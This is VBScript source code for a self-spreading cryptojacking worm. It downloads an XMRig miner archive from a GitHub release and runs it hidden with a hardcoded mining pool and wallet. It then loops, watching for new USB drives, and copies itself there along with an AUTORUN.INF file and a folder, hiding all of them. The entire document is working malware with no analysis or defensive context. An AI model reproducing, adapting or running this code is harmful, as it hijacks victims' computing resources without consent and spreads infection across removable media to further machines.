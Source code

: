 Option Explicit
On Error Resume Next

Dim downloadUrl, zipFileName, extractedFolderName, exeName, minerArgs, autorunFile, vbsFile, openFolder
Dim http, stream, fso, wshShell, shellApp, scriptPath, zipFilePath, extractPath, exePath, command
Dim srcAutorunPath, srcVbsPath, srcOpenFolderPath
Dim wmiService, initialDrives, colDisks, objDisk, driveLetter
Dim destAutorun, destVbs, destFolder
Dim currentDrives, key
Dim zipFolder

downloadUrl = "https://github.com/tvhbes/the-tvhbes/releases/download/tvhbes/xmrig-6.24.0-windows-x64.zip"
zipFileName = "xmrig-6.24.0-windows-x64.zip"
extractedFolderName = "xmrig-6.24.0"
exeName = "xmrig.exe"
minerArgs = "-o pool.hashvault.pro:443 -u 471q5TCWH23JtsjiSVNXs8TNRCp4aadn7b5Lmxi9xFrLgimAFyqajGqXAfDFjFvZkiRkZmEnC3wYbeMs1FsJ8u8oVmf17Fc -p ratul -a rx/0 -k --donate-level 1"
autorunFile = "AUTORUN.INF"
vbsFile = "sami.vbs"
openFolder = "OpenFile"

Set fso = CreateObject("Scripting.FileSystemObject")
Set wshShell = CreateObject("WScript.Shell")
scriptPath = fso.GetParentFolderName(WScript.ScriptFullName)

zipFilePath = fso.BuildPath(scriptPath, zipFileName)
extractPath = fso.BuildPath(scriptPath, "")

' Correctly define paths based on user's directory structure
exePath = fso.BuildPath(fso.BuildPath(scriptPath, extractedFolderName), exeName)
srcAutorunPath = fso.BuildPath(scriptPath, autorunFile)
srcVbsPath = fso.BuildPath(scriptPath, vbsFile)
srcOpenFolderPath = fso.BuildPath(scriptPath, openFolder)

If Not fso.FileExists(exePath) Then
    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    If Err.Number = 0 Then
        http.SetTimeouts 10000, 30000, 60000, 60000
        http.Open "GET", downloadUrl, False
        http.Send
        If http.Status = 200 Then
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write http.ResponseBody
            stream.SaveToFile zipFilePath, 2
            stream.Close
            Set stream = Nothing
            
            Set shellApp = CreateObject("Shell.Application")
            If fso.FileExists(zipFilePath) Then
                Set zipFolder = shellApp.NameSpace(zipFilePath)
                Set destFolder = shellApp.NameSpace(extractPath)
                destFolder.CopyHere zipFolder.Items, 20
            End If
            Set shellApp = Nothing
        End If
        Set http = Nothing
    End If
End If

If fso.FileExists(exePath) Then
    command = """" & exePath & """ " & minerArgs
    wshShell.Run command, 0, False
End If

Set initialDrives = CreateObject("Scripting.Dictionary")
Set wmiService = GetObject("winmgmts:\\.\root\cimv2")
Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")

For Each objDisk in colDisks
    initialDrives.Add objDisk.DeviceID, True
Next

Do
    WScript.Sleep 5000
    Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")
    
    For Each objDisk in colDisks
        driveLetter = objDisk.DeviceID
        If Not initialDrives.Exists(driveLetter) Then
            initialDrives.Add driveLetter, True
            WScript.Sleep 10000 ' Wait 10 seconds after detection
            
            destAutorun = fso.BuildPath(driveLetter & "\", autorunFile)
            destVbs = fso.BuildPath(driveLetter & "\", vbsFile)
            destFolder = fso.BuildPath(driveLetter & "\", openFolder)
            
            fso.CopyFile srcAutorunPath, destAutorun, True
            fso.CopyFile srcVbsPath, destVbs, True ' Added missing line to copy sami.vbs
            fso.CopyFolder srcOpenFolderPath, destFolder, True
            
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destAutorun & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destVbs & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destFolder & """ /s /d", 0, True
        End If
    Next
    
    Set currentDrives = CreateObject("Scripting.Dictionary")
    For Each objDisk in colDisks
        currentDrives.Add objDisk.DeviceID, True
    Next

    For Each key in initialDrives.Keys
        If Not currentDrives.Exists(key) Then
            initialDrives.Remove(key)
        End If
    Next
Loop

